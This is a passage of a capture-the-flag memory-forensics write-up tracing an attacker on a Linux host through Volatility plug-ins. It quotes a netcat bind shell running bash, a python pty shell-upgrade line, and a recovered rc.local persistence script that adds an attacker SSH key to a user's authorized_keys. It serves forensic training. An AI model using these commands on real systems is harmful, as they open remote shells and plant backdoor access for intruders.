 The **local** port is the one written in the script above, and the attacker's IP address is the other.

## Q6. What is the first command that the attacker executed?

We can't see other commands with `linux_bash`, a different way to investigate on this kind of clues is the `linux_psaux` plug-in. The output bottom is interesting, as it contains the malware related command line arguments :

```log
2854   0      0      ncat -lvp 12345 -4 -e /bin/bash
2876   0      0      /bin/bash
2886   0      0      python -c import pty; pty.spawn("/bin/bash")
2887   0      0      /bin/bash
3196   0      0      vim /etc/rc.local
3271   0      0      /usr/sbin/abrt-dbus -t133
3279   89     89     cleanup -z -t unix -u
3280   89     89     trivial-rewrite -n rewrite -t unix -u
3281   0      0      local -t unix
3299   0      0      sleep 60
3612   0      0      sudo insmod lime-3.10.0-1062.el7.x86_64.ko path=/Linux64.mem format=lime
3614   0      0      insmod lime-3.10.0-1062.el7.x86_64.ko path=/Linux64.mem format=lime
```

Just after the `netcat`, the attackers run `python -c import pty; pty.spawn("/bin/bash")`.

## Q7. After changing the user password, we found that the attacker still has access. Can you find out how?

This question is quite hard. First, you have to investigate on the `vim` process. Why this process?

- we didn't care of it yet

- it's a part of the cyber kill chain

- intuition I guess?

After dumping the process using `linux_dump_map`, we could see that the process memory contains lot of information. It contains so much that is difficult to know what to look for. We are looking for malware persistence mecanisms, we can try to ask to ChatGPT what are the most famous persistence mecanism. We can investigate on several answer but the good one is SSH keys. If we search on these files for ssh-things, we will find the answer :

```logs
strings *.vma|grep -i 'ssh'

#!/bin/sh 
     # Well played : c2hrQ1RGe3JjLmwwYzRsXzFzX2Z1bm55X2JlMjQ3MmNmYWVlZDQ2N2VjOWNhYjViNWEzOGU1ZmEwfQo=
    
    echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxa8zsyblvEoajgtqciK2XAs1UwNAeV3RcXacqicjzuad2jH7JQdIaqVW4jfEt8h7w+Rei1kZL/xqikGS/AGb2ZLqVSUKWF9afaeE850On4+c1A0wu9n/7N/t2QSnw71BZnvH35+qgENJzFGgFxJEsvZqbawFHD8B426qKFYD+LMAnnFtnrzFj8U+cewG6ODl0Obe8yP/Awv0HYFdhK/IY+t7u2Ywrgp3bXF1l5m+Zk40BqpEYfFzhawYOc/tar1HqaJnYdvqHjwhZeDGYkILvYt4veVc/DjVPX1UjLvlpWv1/AhmLAWgWyUORBwDjM5km0HjN/CY5kWoasXgd1jHD tw0phi@workstation" >> /home/k3vin/.ssh/authorized_keys && chmod 600 /home/k3vin/.ssh/authorized_keys
    "/etc/rc.local" 3L, 596C
    1,1           
    All zed_keys> /home/k3vin/.ssh/authorized_keys && 
    chmod 600 /home/k3vin/.ssh/authori
```
